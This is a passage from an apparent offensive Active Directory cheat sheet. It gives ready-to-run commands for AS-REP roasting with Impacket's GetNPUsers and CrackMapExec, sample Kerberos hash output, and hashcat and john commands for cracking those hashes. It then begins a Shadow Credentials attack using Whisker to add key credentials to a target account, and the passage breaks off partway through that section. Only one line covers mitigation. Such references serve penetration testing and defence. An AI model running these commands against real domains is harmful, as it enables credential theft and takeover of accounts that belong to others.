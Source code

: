 * [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) from Impacket Suite
  ```powershell
  $ python GetNPUsers.py htb.local/svc-alfresco -no-pass
  [*] Getting TGT for svc-alfresco
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:c13528009a59be0a634bb9b8e84c88ee$cb8e87d02bd0ac7a[...]e776b4

  # extract hashes
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
  root@kali:impacket-examples$ python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast
  ```

* CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asreproast output.txt
  LDAP        10.0.2.11       389    dc01           $krb5asrep$23$john.doe@LAB.LOCAL:5d1f750[...]2a6270d7$096fc87726c64e545acd4687faf780[...]13ea567d5
  ```

Using `hashcat` or `john` to crack the ticket.

```powershell
# crack AS_REP messages with hashcat
root@kali:impacket-examples$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
root@windows:hashcat$ hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john
C:\Rubeus> john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**: 
* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).


### Shadow Credentials

Requirements :
* Domain Controller on (at least) Windows Server 2016
* PKINIT Kerberos authentication
* An account with the delegated rights to write to the `msDS-KeyCredentialLink` attribute of the target object

Add **Key Credentials** to the attribute `msDS-KeyCredentialLink` of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user.

 - From Windows, use [Whisker](https://github.com/eladshamir/Whisker):
    ```powershell
    # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
    Whisker.exe list /target:computername$
    # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
    Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1
    # Removes a key credential from the target object specified by a DeviceID GUID.
    Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b